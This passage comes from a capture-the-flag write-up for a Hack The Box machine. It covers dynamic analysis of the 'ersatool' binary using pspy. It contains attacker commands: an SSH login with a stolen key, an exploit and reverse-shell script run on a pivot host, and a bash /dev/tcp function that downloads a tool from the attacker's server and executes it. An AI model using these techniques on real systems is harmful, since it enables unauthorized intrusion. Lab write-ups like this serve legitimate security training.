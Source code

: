 To execute some `easyrsa` binary.

### Dynamic Analysis

In order to inspect the execution of ersatool (easy RSA tool), we'll need two
remote connections to `pki`: one to run ersatool and the other for `pspy`.

On the attacking box:

```bash
bash www/stage.sh
ssh -i credentials/id_rsa.www-data -p 2222 www-data@10.10.10.246
```

On the "web" box:

```bash
cd /tmp
python3 exploit.py --url http://192.168.254.3/index.php
python3 rshell.py 9999
python3 -m http.server 8888
```

On the first "pki" box:

```bash
__curl() {
  read proto server path <<< "${1//"/"/ }"
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3

  while IFS= read -r line ; do
      [[ "$line" == $'\r' ]] && break
  done <&3

  # read the data
  nul='\0'
  while IFS= read -d '' -r x || { nul=""; [ -n "$x" ]; }; do
      printf "%s$nul" "$x"
  done <&3
  exec 3>&-
}
__curl http://192.168.254.2:8888/pspy > pspy
chmod +x pspy
./pspy | tee pspy.log
# 2021/11/08 13:06:28 CMD: UID=33   PID=1952   | ersatool
# 2021/11/08 13:06:33 CMD: UID=0    PID=1954   | sh -c /opt/easyrsa/easyrsa build-client-full a nopass batch
# 2021/11/08 13:06:33 CMD: UID=0    PID=1953   | ersatool
# 2021/11/08 13:06:33 CMD: UID=0    PID=1955   | /bin/sh /opt/easyrsa/easyrsa build-client-full a nopass batch
# 2021/11/08 13:06:33 CMD: UID=0    PID=1956   | sed -e s`ENV::EASYRSA`EASYRSA`g -e s`$dir`/opt/easyrsa/pki`g -e s`$EASYRSA_PKI`/opt/easyrsa/pki`g -e s`$EASYRSA_CERT_EXPIRE`36500`g -e s`$EASYRSA_CRL_DAYS`180`g -e s`$EASYRSA_DIGEST`sha256`g -e s`$EASYRSA_KEY_SIZE`2048`g -e s`$EASYRSA_DIGEST`sha256`g -e s`$EASYRSA_DN`cn_only`g -e s`$EASYRSA_REQ_COUNTRY`US`g -e s`$EASYRSA_REQ_PROVINCE`California`g -e s`$EASYRSA_REQ_CITY`San Francisco`g -e s`$EASYRSA_REQ_ORG`Copyleft Certificate Co`g -e s`$EASYRSA_REQ_OU`My Organizational Unit`g -e s`$EASYRSA_REQ_CN`ChangeMe`g -e s`$EASYRSA_REQ_EMAIL`me@example.net`g /opt/easyrsa/pki/openssl-easyrsa.cnf
# 2021/11/08 13:06:33 CMD: UID=0    PID=1957   |
# 2021/11/08 13:06:33 CMD: UID=0    PID=1958   | /bin/sh /opt/easyrsa/easyrsa build-client-full a nopass batch
```

[author-profile]: https://app.hackthebox.com/users/9631
[cve-2019-11043]: https://github.com/theMiddleBlue/CVE-2019-11043
[otphp]: https://github.com/lelag/otphp
[fixgz]: https://github.com/yonjar/fixgz
[phpinfo]: images/screenshots/phpinfo.png
[pki-domain]: images/screenshots/pki.png
[xdebug-rce]: https://www.rapid7.com/db/modules/exploit/unix/http/xdebug_unauth_exec/